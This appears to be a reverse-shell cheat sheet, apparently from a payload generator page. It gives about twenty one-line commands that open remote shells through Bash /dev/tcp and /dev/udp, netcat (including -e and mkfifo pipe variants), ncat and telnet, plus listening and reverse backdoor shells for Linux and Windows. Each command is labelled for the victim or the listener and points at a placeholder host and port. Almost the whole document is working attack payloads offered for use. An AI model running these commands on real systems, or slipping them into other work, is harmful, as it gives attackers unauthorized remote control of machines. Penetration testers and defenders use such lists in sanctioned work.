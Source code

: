 <h3>Bash TCP:</h3>
Victim:
<pre id="cmd001">bash -i >& /dev/tcp/127.0.0.1/813 0>&1</pre>
<pre id="cmd002">/bin/bash -i > /dev/tcp/127.0.0.1/813 0<& 2>&1</pre>
<pre id="cmd003">exec 5<>/dev/tcp/127.0.0.1/813;cat <&5 | while read line; do $line 2>&5 >&5; done</pre>
<pre id="cmd004">exec /bin/sh 0&lt;/dev/tcp/127.0.0.1/813 1>&0 2>&0</pre>
<pre id="cmd005">0<&196;exec 196<>/dev/tcp/127.0.0.1/813; sh <&196 >&196 2>&196</pre>

<h3>Bash UDP:</h3>
Victim:
<pre id="cmd006">sh -i >& /dev/udp/127.0.0.1/813 0>&1</pre>
Listener:
<pre id="cmd007">nc -u -lvp 813</pre>

<h3>Netcat:</h3>
<pre id="nc01">nc -e /bin/sh 127.0.0.1 813</pre>
<pre id="nc02">nc -e /bin/bash 127.0.0.1 813</pre>
<pre id="nc03">nc -c bash 127.0.0.1 813</pre>
<pre id="nc04">mknod backpipe p && nc 127.0.0.1 813 0&lt;backpipe | /bin/bash 1>backpipe </pre>
<pre id="nc05">rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 813 >/tmp/f</pre>
<pre id="nc06">rm -f /tmp/p; mknod /tmp/p p && nc 127.0.0.1 813 0/tmp/p 2>&1</pre>
<pre id="nc07">rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 127.0.0.1 813 > f</pre>
<pre id="nc08">rm -f x; mknod x p && nc 127.0.0.1 813 0&lt;x | /bin/bash 1>x</pre>
Listening backdoor shell on Linux:
```
$ nc –l –p [LocalPort] –e /bin/bash
```

Listening backdoor shell on Windows:
```
C:\>nc –l –p [LocalPort] –e cmd.exe
```

Create a shell on local port [LocalPort] that can then be accessed using a fundamental Netcat client

Reverse backdoor shell on Linux:
```
$ nc [YourIPaddr] [port] –e /bin/bash
```

Reverse backdoor shell on Windows:
```
C:\>nc [YourIPaddr] [port] –e cmd.exe
```

Create a reverse shell that will attempt to connect to [YourIPaddr] on local port [port].

This shell can then be captured using a fundamental nc listener

<h3>Ncat:</h3>
<pre id="ncat01">ncat 127.0.0.1 813 -e /bin/bash</pre>
<pre id="ncat02">ncat --udp 127.0.0.1 813 -e /bin/bash</pre>

<h3>Telnet:</h3>
<pre id="telnet01">rm -f /tmp/p; mknod /tmp/p p && telnet 127.0.0.1 813 0/tmp/p 2>&1</pre>
<pre id="telnet02">telnet 127.0.0.1 813 | /bin/bash | telnet 127.0.0.1 444</pre>
<pre id="telnet03">rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet 127.0.0.1 813 > f</pre>
<pre id="telnet04">rm -f x; mknod x p && telnet 127.0.0.1 813 0&lt;x | /bin/bash 1>x</pre>
